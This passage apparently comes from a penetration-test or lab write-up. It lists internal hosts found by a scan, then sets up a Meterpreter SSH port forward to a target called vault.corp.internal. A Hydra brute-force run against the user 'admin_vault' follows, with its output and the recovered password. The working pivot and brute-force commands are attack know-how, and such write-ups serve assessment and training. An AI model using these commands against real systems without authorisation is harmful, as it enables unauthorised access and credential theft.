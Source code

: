 **Discovered Hosts:**
```
[+] 172.16.50.5:22    - TCP OPEN
[+] 172.16.50.5:111   - TCP OPEN
[+] 172.16.50.10:80   - TCP OPEN
[+] 172.16.50.10:3306 - TCP OPEN
[+] 172.16.50.15:22   - TCP OPEN  ← Primary Target
```

**Target Identified:** vault.corp.internal (172.16.50.15) - SSH service available

---

### 4.3 SSH Port Forwarding

**Objective:** Enable direct SSH access from attacker machine

**Port Forward Configuration:**
```bash
# In Meterpreter session
portfwd add -L 127.0.0.1 -l 2222 -r 172.16.50.15 -p 22
```

**Verification:**
```bash
portfwd list
```

**Result:**
```
[*] Forward TCP relay created: (local) 127.0.0.1:2222 -> (remote) 172.16.50.15:22
```

---

### 4.4 SSH Brute Force Attack

**Target:** vault.corp.internal via port forward

**Username Intelligence:** Target username "admin_vault" identified through previous reconnaissance

**Attack Command:**
```bash
hydra -l admin_vault -P /usr/share/wordlists/rockyou-top1000.txt \
  ssh://127.0.0.1 -s 2222 -t 4 -f
```

**Attack Progress:**
```
[DATA] max 4 tasks per 1 server, overall 4 tasks, 1000 login tries
[DATA] attacking ssh://127.0.0.1:2222/
[STATUS] 26.00 tries/min, 26 tries in 00:01h
[STATUS] 24.00 tries/min, 48 tries in 00:02h
```

**Success:**
```
[2222][ssh] host: 127.0.0.1   login: admin_vault   password: Welcome2024!
[STATUS] attack finished for 127.0.0.1 (valid pair found)
```
